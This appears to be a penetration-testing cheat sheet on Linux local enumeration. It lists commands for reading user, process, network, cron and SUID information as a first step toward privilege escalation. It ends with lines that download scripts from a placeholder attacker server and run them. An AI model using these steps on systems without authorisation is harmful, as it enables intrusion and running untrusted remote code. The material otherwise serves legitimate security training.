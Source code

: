 # Local Enumeration

### Users

Enumerate the current user ID (UID), group ID (GID), and the groups the user belongs to.

```bash
id
uid=1001(john) gid=1001(john) groups=1001(john),27(sudo) # john's result
```

Enumerate basic information of all users using `/etc/passwd`.

```bash
cat /etc/passwd
```

The following example describes a line of `/etc/passwd` file.

```bash
john:x:1001:1001:John Doe:/home/john:/bin/bash
username:password:uid:gid:gecos:home directory:shell
```

* **Username**: The login name (1-32 characters).
* **Password**: An `x` means the password is stored in `/etc/shadow`.
* **User ID (UID)**: Unique ID for the user. UID 0 is for root, 1-99 are reserved, and 100-999 are for system accounts.
* **Group ID (GID)**: The primary group ID, found in `/etc/group`.
* **User Info (GECOS)**: Optional user information like full name or contact info.
* **Home Directory**: The user's default directory when logging in.
* **Shell**: The user's default shell, like `/bin/bash`, or `/sbin/nologin` to prevent login.

### System information

Enumerate hostname.

```bash
hostname
```

Enumerate operating system version.

```bash
cat /etc/issue
```

```bash
cat /etc/os-release
```

Enumerate kernel version and architecture.

```bash
uname -a
```

### User configurations

list `sudoer` capabilities of current user.

```bash
sudo -l
```

List environment variables.

```bash
env
```

List config files such as bash profile.

```bash
ls -la <home_directory>
```

### Processes

Enumerate all processes in a user readable format.

```bash
ps aux
```

Monitor Processes.

```bash
watch -n 1 "ps -aux | grep pass"
```

It also possible to monitor running processes at live time using [pspy](https://github.com/DominicBreuker/pspy) tool.

### Network

Enumerate all network interfaces, this includes physical and virtual networks.

```bash
ip a
```

```bash
ifconfig
```

Display the routing tables.

```bash
route
```

Enumerate connections.

```bash
ss -anp
```

```bash
netstat -tulnp
```

Enumerate firewall rules.

```bash
cat /etc/iptables/rules.v4
```

### Scheduled tasks

Scheduled tasks in Linux also known as "Cron Jobs" and configured using the `crontab` command-line tool.

#### Crontab Files

* **User-specific crontabs**: Stored separately for each user and managed by the `crontab` command.
* **System-wide crontab**: Found in `/etc/crontab`. This file allows specifying jobs for different users.
* **Cron directories**:
  * `/etc/cron.hourly`: Tasks that run every hour.
  * `/etc/cron.daily`: Tasks that run daily.
  * `/etc/cron.weekly`: Tasks that run weekly.
  * `/etc/cron.monthly`: Tasks that run monthly.

Listing tasks files.

```bash
ls -lah /etc/cron*
```

Find tasks in the system logs.

```bash
grep "CRON" /var/log/syslog
```

Enumerate the current user's scheduled jobs.

```bash
crontab -l
```

### Application

Listing installed applications.

```bash
dpkg -l
```

### File System

List all drives at boot time.

```bash
cat /tec/fstab
```

List all mounted file systems.

```bash
mount
```

List all available disks.

```bash
lsblk
```

Enumerate loaded Kernel modules.

```bash
lsmod
```

Gather more information about the kernel module.

```bash
/sbin/modinfo <module>
```

### SUID Binaries

Enumerate SUID binaries.

```bash
find / -perm /4000 -type f 2>/dev/null
```

## Automated Enumeration

Download and execute **`LinPEAS`** or **`unix-privesc-check`:**

{% code overflow="wrap" %}
```bash
# LinPEAS
curl -L http://<attacker_http_server>/linpeas.sh | bash 

# unix-privesc-check
wget http://<attacker_http_server>/unix-privesc-check && chmod +x unix-privesc-check && ./unix-privesc-check <standard | detailed> 
```
{% endcode %}
